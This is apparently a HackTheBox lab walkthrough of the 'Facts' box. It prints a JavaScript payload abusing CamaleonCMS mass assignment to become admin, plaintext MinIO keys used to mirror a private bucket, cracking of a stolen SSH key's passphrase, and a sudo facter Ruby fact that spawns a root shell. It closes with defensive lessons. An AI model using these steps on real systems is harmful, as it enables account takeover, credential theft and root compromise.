





# HackTheBox — Facts

Facts is a Linux box that chains together three distinct mistakes: a mass-assignment vulnerability in CamaleonCMS that lets any registered user promote themselves to admin, S3 credentials left sitting in the CMS settings panel, and a `sudo` rule granting unrestricted code execution through Puppet's `facter` tool. Each step unlocks the next, and the whole thing hangs together around a pleasing theme — trivia content, a tool literally named after "facts," and a username pulled from a cracked SSH key that points back to the box name.

---

<div id="protected-marker"></div>

## Reconnaissance

I started with a full TCP scan to understand the attack surface.




Three ports came back interesting:

- **22/tcp** — OpenSSH 9.9p1 (Ubuntu)
- **80/tcp** — nginx 1.26.3, redirecting to `http://facts.htb/`
- **54321/tcp** — MinIO object storage, with the web console redirecting to port 9001

After adding `facts.htb` to `/etc/hosts`, I browsed to the site. It's running **CamaleonCMS** — a Ruby on Rails CMS — on the default `camaleon_first` theme. The session cookie (`_factsapp_session`) confirms Rails. There are a couple of pages of trivia content and images being proxied from a path that would later turn out to map to a MinIO bucket called `randomfacts`.

### Poking at MinIO

Port 54321 exposes the MinIO API directly. The first thing I checked was whether any buckets were publicly accessible.

```bash
curl -s http://facts.htb:54321/randomfacts/
```

The `randomfacts` bucket is both listable and writable anonymously — I confirmed this by uploading a test file and reading it back through both MinIO and the nginx proxy. That's a useful primitive, but I needed to think about how to weaponize it.

I also tried **CVE-2023-28432**, a MinIO information disclosure bug that dumps environment variables (including credentials) via a POST to `/minio/health/cluster`. This one was patched — the endpoint returned `BadRequest`. Port 9001 (the MinIO admin console) wasn't reachable externally either.

Probing for other bucket names returned 403 for everything, which is the same response as non-existent buckets on a hardened MinIO setup. I couldn't enumerate private buckets without credentials. That avenue was parked for now.

---

## Foothold

### CVE-2025-2304 — CamaleonCMS Mass Assignment

The admin login at `/admin/login` was my first target. Default credentials (`admin`/`admin`) didn't work, but there *was* a registration endpoint at `/admin/register`. I created an account and got in as a `Client` — the lowest privilege role.

From there I started reading CamaleonCMS source. The update profile endpoint in versions before 2.9.1 has a classic Rails mass assignment mistake:

```ruby
@user.update(params.require(:password).permit!)
```

`permit!` whitelists *every* parameter nested under `password[]` — including `role`. That means any authenticated user can self-promote to admin by sending a crafted PATCH request to `/admin/users/:id/updated_ajax`.

To exploit this cleanly, I grabbed my CSRF token and fired off the payload from the browser console while logged in as my newly registered user:

```javascript
var token = document.querySelector('#profie-form-ajax-password input[name="authenticity_token"]').value;
var fd = new FormData();
fd.append('_method', 'patch');
fd.append('authenticity_token', token);
fd.append('password[password]', 'Password123');
fd.append('password[password_confirmation]', 'Password123');
fd.append('password[role]', 'admin');
fetch('/admin/users/5/updated_ajax', { method: 'POST', body: fd, credentials: 'same-origin' });
```

The user ID `5` was mine — visible in the profile URL. After running this and refreshing, I was now an Administrator. The role parameter sailed straight through `permit!` without any validation.

### MinIO Credentials in Plain Sight

With admin access to the CMS, I went exploring. Under **Settings → General Site**, the S3 configuration was sitting there in the clear:

- **Access Key:** `AKIA595383B4F8812028`
- **Secret Key:** `8Ve+8ajtfs90I4ylOIBLNgDMQsV7Ohqe9sT0VlOr`

This is a lesson I see constantly on internal engagements: CMS admin panels are treasure troves. Developers drop cloud credentials into settings forms and forget about them.

### Pivoting into MinIO with Authenticated Access

With real credentials, I configured `mc` (the MinIO CLI client) and listed all buckets:

```bash
mc alias set facts http://facts.htb:54321 AKIA595383B4F8812028 8Ve+8ajtfs90I4ylOIBLNgDMQsV7Ohqe9sT0VlOr
mc ls facts
```




There it is — an `internal` bucket that was completely invisible during my anonymous enumeration (it returned 403 just like non-existent buckets). I drilled into it:

```bash
mc ls --recursive facts/internal
```

It contained what looked like a home directory backup. I mirrored the whole thing locally:

```bash
mc mirror facts/internal ./internal-backup
```

Inside I found `.ssh/id_ed25519` — a private SSH key. Before trying to use it, I wanted to know who it belonged to. The key comment is often overlooked:

```bash
ssh-keygen -y -f internal-backup/.ssh/id_ed25519
```

The output ended with `trivia@facts.htb`. Username confirmed.

The key was passphrase-protected, so I ran it through `ssh2john` and cracked it against `rockyou.txt`:

```bash
ssh2john internal-backup/.ssh/id_ed25519 > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```




`dragonballz`. With that, I had everything I needed:

```bash
ssh -i internal-backup/.ssh/id_ed25519 trivia@facts.htb
```

User flag obtained.

---

## Privilege Escalation

Once on the box as `trivia`, the first thing I always run is `sudo -l`:




`facter` is Puppet's fact-gathering tool, and it supports loading custom Ruby fact definitions from a user-specified directory via `--custom-dir`. Since `facter` facts are just Ruby code, and we can run `facter` as root, this is an immediate game over.

I created a malicious fact file in `/tmp/evil/`:

```bash
mkdir /tmp/evil
cat > /tmp/evil/pwn.rb << 'EOF'
Facter.add(:pwn) do
  setcode do
    system('/bin/bash')
    'done'
  end
end
EOF
```

The `setcode` block is what `facter` executes to compute the fact's value. Calling `system('/bin/bash')` here spawns an interactive shell — and since we're running under `sudo`, that shell belongs to root.

```bash
sudo /usr/bin/facter --custom-dir /tmp/evil pwn
```




Root flag captured.

---

## Lessons Learned

**Mass assignment is still a real threat in Rails.** CVE-2025-2304 exists because `permit!` is a blunt instrument — it whitelists everything. Any time you see that call in a codebase, ask what attributes are being passed in and whether any of them are sensitive (like `role`, `admin`, `verified`). Strong parameters exist for a reason; using `permit!` defeats their entire purpose.

**CMS admin panels routinely leak credentials.** The MinIO keys were sitting in the CamaleonCMS settings UI in plaintext. On real engagements, once you have CMS admin access, every settings page is worth reading carefully. API keys, SMTP passwords, S3 credentials — they all live there.

**MinIO bucket enumeration changes completely with authentication.** The `internal` bucket was undetectable anonymously (403 is indistinguishable from "does not exist" on MinIO). This is actually good security design — but it means credential theft is the key that unlocks the rest of the attack chain. Without the CMS admin pivot, the MinIO credentials, and therefore the SSH key, would never have been reachable.

**SSH key comments reveal usernames.** Private keys frequently embed `user@hostname` in the comment field. `ssh-keygen -y -f keyfile` extracts the public key, including that comment, without needing the passphrase first. This is an easy way to recover a username when you find a key in an unusual location.

**Passphrases on SSH keys are only as strong as the wordlist.** `dragonballz` fell immediately against `rockyou.txt`. If an SSH key is going to be stored somewhere sensitive like a backup bucket, the passphrase needs to be strong enough to survive offline cracking — or the key shouldn't be stored there at all.

**`facter --custom-dir` is a trivial sudo escape.** This is documented on GTFOBins, but the mechanism is worth understanding: Puppet's fact system is built on arbitrary Ruby execution by design. That's fine when `facter` runs as an unprivileged process collecting system information. When you grant `sudo` access to it, you're granting `sudo` access to an arbitrary Ruby interpreter. The fix is either to remove the `sudo` rule or to wrap the call so `--custom-dir` cannot be passed.

The box's theme ties the whole thing together elegantly — trivia facts on the website, a backup belonging to a user named `trivia`, and root via a tool literally called `facter`. Nice box design.
